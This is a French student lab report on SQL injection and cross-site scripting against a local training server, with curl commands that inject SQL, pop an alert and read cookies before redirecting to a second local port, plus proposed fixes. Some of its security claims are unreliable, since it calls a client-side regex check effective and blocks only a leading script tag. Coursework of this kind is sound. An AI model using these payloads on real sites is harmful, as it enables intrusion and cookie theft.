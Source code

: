 # Rendu "Injection"

## Binome

Michiels, Pierre, email: pierre.michiels.etu@univ-lille.fr
Saulquin, Clément/Aurélie, email: clement.saulquin.etu@univ-lille.fr


## Question 1

* Quel est ce mécanisme? 
Le mécanisme qui permet d'éviter à l'utilisateur de modifier la table est d'utiliser un script javascript qui vérifie la structure de la chaine de caratères avec une regex.
* Est-il efficace? Pourquoi? 
Ce mécanisme est efficace. En effet à partir du moment où l'on veut exécuter une autre requête SQL à la place de celle prévue, on est obligé de séprarer la requête pirate avec un **;** qui sera automatiquement rejeter par la regex.

## Question 2

* Votre commande curl
Cette commande curl a été obtenue après avoir fait un copier-coller de la commande curl généré par mon navigateur internet (brave) - dans l'onglet réseau.

```
curl 'http://127.0.0.1:8080/' --data-raw 'chaine=$$argent$$&submit=OK' --compressed
```

## Question 3

* Votre commande curl pour effacer la table

```
curl 'http://127.0.0.1:8080/' --data-raw 'chaine=%24%24argent%24%24%27%2C+%27hey%27%29+ # &submit=OK'
ou 
curl 'http://127.0.0.1:8080/' --data-raw "chaine=%24%24argent%24%24', 'hey')#&submit=OK"
```

* Expliquez comment obtenir des informations sur une autre table
Avec mysql, on peut obtenir la liste des tables présentes avec la requête sql suivante:
'show tables;'
Il suffit alors de concatener les 2 requetes mais le problème c'est que le résultat ne pourra s'afficher 
que si le nombre de collonnes du select au dessus de l'input correspondent au nombre de colonnes que la requete show tables donne.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

J'ai échappé les caractères entrés contenus dans post["chaine"] en string et au paravent les faire passer un test regex similaire qu'à celui présent dans le script js.
Si le test échoue, je renvois une string indiquant une erreur 400. (mauvaise requête)

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
´´´
curl 'http://127.0.0.1:8080/' --data-raw "chaine=%3Cscript%3Ealert%28%22hello%22%29%3C%2Fscript%3E&submit=OK"
´´´

* Commande curl pour lire les cookies
curl 'http://127.0.0.1:8080/' --data-raw "chaine=%3Cscript%3E%0D%0Adocument.cookie+%3D+%22username%3DJohn+Doe%22%3B+%0D%0Aalert%28document.cookie%29%3B%0D%0Adocument.location.replace%28%22http%3A%2F%2F127.0.0.1%3A8090%22%29%3B%0D%0A%3C%2Fscript%3E&submit=OK"


## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

La correction du serveur.py pour la faille xss est exactement la même que pour l'injection sql.
On fait d'abord passer l'entrée utilisateur de l'input par un regex. (Ce qui échappe les caractères spéciaux).
un regex spécial pour une faille xss est d'échapper la balise script ainsi: re.search("^<script>", postChaine) et de tester un if contraire ('!')
pour à tout prix éviter d'injecter une balise <script> dans le code.
Puis on exécute la requete sql avec un paramètre de type string sécurisé.


